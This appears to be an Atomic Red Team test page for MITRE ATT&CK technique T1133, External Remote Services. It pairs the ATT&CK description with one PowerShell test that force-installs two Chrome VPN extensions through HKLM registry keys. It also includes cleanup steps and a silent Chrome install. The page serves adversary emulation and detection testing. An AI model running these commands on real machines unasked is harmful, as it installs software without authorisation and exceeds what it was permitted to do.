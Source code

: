 # T1133 - External Remote Services
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1133)
<blockquote>Adversaries may leverage external-facing remote services to initially access and/or persist within a network. Remote services such as VPNs, Citrix, and other access mechanisms allow users to connect to internal enterprise network resources from external locations. There are often remote service gateways that manage connections and credential authentication for these services. Services such as [Windows Remote Management](https://attack.mitre.org/techniques/T1021/006) can also be used externally.

Access to [Valid Accounts](https://attack.mitre.org/techniques/T1078) to use the service is often a requirement, which could be obtained through credential pharming or by obtaining the credentials from users after compromising the enterprise network.(Citation: Volexity Virtual Private Keylogging) Access to remote services may be used as a redundant or persistent access mechanism during an operation.

Access may also be gained through an exposed service that doesn’t require authentication. In containerized environments, this may include an exposed Docker API, Kubernetes API server, kubelet, or web application such as the Kubernetes dashboard.(Citation: Trend Micro Exposed Docker Server)(Citation: Unit 42 Hildegard Malware)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Running Chrome VPN Extensions via the Registry 2 vpn extension](#atomic-test-1---running-chrome-vpn-extensions-via-the-registry-2-vpn-extension)


<br/>

## Atomic Test #1 - Running Chrome VPN Extensions via the Registry 2 vpn extension
Running Chrome VPN Extensions via the Registry install 2 vpn extension, please see "T1133\src\list of vpn extension.txt" to view complete list

**Supported Platforms:** Windows


**auto_generated_guid:** 4c8db261-a58b-42a6-a866-0a294deedde4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| chrome_url | chrome installer download URL | url | https://dl.google.com/tag/s/appguid%3D%7B8A69D345-D564-463C-AFF1-A69D9E530F96%7D%26iid%3D%7BFD62DDBC-14C6-20BD-706F-C7744738E422%7D%26lang%3Den%26browser%3D3%26usagestats%3D0%26appname%3DGoogle%2520Chrome%26needsadmin%3Dprefers%26ap%3Dx64-stable-statsdef_1%26installdataindex%3Dempty/chrome/install/ChromeStandaloneSetup64.exe|
| extension_id | chrome extension id | String | "fcfhplploccackoneaefokcmbjfbkenj", "fdcgdnkidjaadafnichfpabhfomcebme"|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$extList = #{extension_id}
foreach ($extension in $extList) {
  New-Item -Path HKLM:\Software\Wow6432Node\Google\Chrome\Extensions\$extension -Force
  New-ItemProperty -Path "HKLM:\Software\Wow6432Node\Google\Chrome\Extensions\$extension" -Name "update_url" -Value "https://clients2.google.com/service/update2/crx" -PropertyType "String" -Force}
Start chrome
Start-Sleep -Seconds 30
Stop-Process -Name "chrome"
```

#### Cleanup Commands:
```powershell
$extList = #{extension_id}
foreach ($extension in $extList) {
Remove-Item -Path "HKLM:\Software\Wow6432Node\Google\Chrome\Extensions\$extension" -ErrorAction Ignore}
```



#### Dependencies:  Run with `powershell`!
##### Description: Chrome must be installed
##### Check Prereq Commands:
```powershell
if ((Test-Path "C:\Program Files\Google\Chrome\Application\chrome.exe") -Or (Test-Path "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest -OutFile $env:temp\ChromeStandaloneSetup64.exe #{chrome_url}
Start-Process $env:temp\ChromeStandaloneSetup64.exe /S
```




<br/>
